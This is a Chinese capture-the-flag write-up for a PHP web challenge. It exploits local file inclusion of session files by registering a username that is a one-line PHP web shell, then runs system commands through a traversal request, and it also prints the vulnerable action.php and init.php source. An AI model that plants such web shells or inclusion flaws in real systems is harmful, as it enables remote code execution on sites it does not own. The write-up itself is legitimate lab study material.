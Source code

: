 ```yaml
---
title: Notebook-session包含
date: 2017-03-25 00:00:00
categories:
- CTF/Web
tags: 百度杯十二月 文件包含 session利用
--- 
```


## 解题过程

### 观察

- 具有登录，注册功能。任意注册，登录后提示there is no flag
    - 登录或注册存在数据库注入？测试并没有~
    - session包含？
- url中存在`/action.php?module=php&file=login`，疑似文件包含
- 扫目录存在`robots.txt`，其中禁止访问`php1nFo.php`
- 观察`php1nFo.php`中发现 
    - **`open_basedir	/var/www/html/:/tmp	/var/www/html/:/tmp`** 即可访问`/tmp`文件夹
    - **`session.save_path	/var/lib/php5	/var/lib/php5`** 然而session在这个文件夹中
- 官方Tips：包含php1nFo.php发现session真正路径 (怎么做到的？)
    - **`session.save_path	/tmp/SESS	/var/lib/php5`**  
- 随意注册登录，尝试包含session: （测试无法利用绝对路径？）   
    - `/action.php&module=&file=../../../tmp/SESS/sess_sjd6u2a234sq5kbrc3dhhhcdj4`得到如下
    -  **`lang|s:5:"zh-CN";user|s:5:"admin";uuid|s:36:"cbdc3636-0e19-11e7-a037-0242ac110003";`**

### Payload

session中包含用户名，构造用户名为php木马，然后在action.php中包含该session
1. 注册用户```<?php $_GET['a'](base64_decode($_GET['b']));?>```
2. 命令执行`/action.php?module=&file=../../../tmp/SESS/sess_sjd6u2a234sq5kbrc3dhhhcdj4&a=system&b=bHM= `发现flag就在目录下

## 源码找坑
> action.php

```php
<?php
include_once './include/init.php';  //包含初始化文件，这里对session的配置进行了修改
if (isset($_GET['file']) && isset($_GET['module'])) {
	$file = $_GET['file'];
	$module = $_GET['module'];
	if ($module === 'php') {
		include "./$file.$module";
	} else {
		if (file_exists("./$file")) {
			include "./$file";  //无法使用绝对路径
		} else {
			echo "the $file didn't exist";
		}
	}

} else {
	die();
}
```

> php1nFo.php

```php
<?php
phpinfo(); // 读取配置文件中的phpinfo
?>
```

>./include/init.php

```php
<?php
header("Content-type: text/html; charset=utf-8");
if (count(get_included_files()) == 1) {
	die();
}

error_reporting(0);
ini_set('session.save_path', '/tmp/SESS');  // 修改session存储路径
//ini_set('session.save_path', './tmp');
session_start();

function require_login() {
	if (!isset($_SESSION['user']) || !$_SESSION['user']) {
		header('Location: ./action.php?module=php&file=login');
		die();
	}
}

if (!isset($_SESSION['lang']) || !$_SESSION['lang']) {
	$_SESSION['lang'] = 'zh-CN';
}
if (isset($_GET['lang'])) {
	$_SESSION['lang'] = $_GET['lang'];
}
$langfile = './include/lang.' . $_SESSION['lang'] . '.php';
if (file_exists($langfile)) {
	include $langfile;
} else {
	$_SESSION['lang'] = 'zh-CN';
	die('Unable to load translation file: ' . $langfile);
}
```


## 知识小结

- robots.txt泄露敏感信息
- phpinfo中的openbase_dir，session.save_path
- 动态修改php.ini
- 文件包含利用
- 绝对路径和相对路径
- php中的session详解
- 一句话木马的混淆以及使用


